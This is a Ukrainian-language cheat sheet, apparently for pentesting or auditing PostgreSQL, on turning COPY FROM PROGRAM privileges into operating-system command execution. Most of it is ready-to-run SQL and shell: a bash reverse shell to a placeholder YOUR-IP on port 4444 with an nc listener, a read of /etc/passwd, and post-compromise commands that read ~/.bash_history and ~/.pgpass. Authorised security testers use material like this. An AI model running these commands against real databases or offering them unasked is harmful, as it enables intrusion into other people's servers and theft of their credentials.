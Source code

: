 # PostgreSQL: Тестування прав на виконання COPY FROM PROGRAM

Цей документ є шпаргалкою для пентесту або аудиту PostgreSQL щодо наявності привілеїв, які дозволяють **виконання системних команд** через SQL.

---

## 📌 Ціль

Визначити, чи має користувач можливість виконання `COPY FROM PROGRAM`, що відкриває вектор до RCE.

---
## ✅ Підключення PostgreSQL
```sql
psql -h hostname/ip -p 6543 -U postgres -d database
```

---
## ✅ Перевірка версії PostgreSQL

```sql
SELECT version();
-- або
SHOW server_version;
```

---

## ✅ Перевірка поточного користувача

```sql
SELECT current_user, session_user;
```

---

## ✅ Тест на виконання системної команди

### Створення тимчасової таблиці для виводу

```sql
CREATE TEMP TABLE poc_output(line text);
```

### Тестова команда ОС (наприклад `id`)

```sql
COPY poc_output FROM PROGRAM 'id';
SELECT * FROM poc_output;
```

### Reverse shell (приклад з bash)

```sql
COPY poc_output FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/YOUR-IP/4444 0>&1"';
```

На машині атакуючого:

```bash
nc -lvnp 4444
```

---

## 🔍 Перевірка: хто має доступ до COPY FROM PROGRAM

### Перевірити ролі, що мають привілей `pg_execute_server_program`

```sql
SELECT rolname
FROM pg_roles
WHERE pg_has_role(rolname, 'pg_execute_server_program', 'member');
```

### Перевірити, чи поточний користувач має це право

```sql
SELECT has_role(current_user, 'pg_execute_server_program', 'member');
```

---

## 🔎 Перевірка суперкористувача

```sql
SELECT rolname, rolsuper
FROM pg_roles
WHERE rolname = current_user;
```

---

## 🧾 Перевірка /etc/passwd (доказ читання файлів)

```sql
COPY poc_output FROM PROGRAM 'cat /etc/passwd';
SELECT * FROM poc_output;
```

---

## 🛠 Інші корисні перевірки в shell (якщо отримано RCE)

```bash
whoami
id
groups
sudo -l
cat ~/.bash_history
cat ~/.pgpass
ls -la /root
```

---
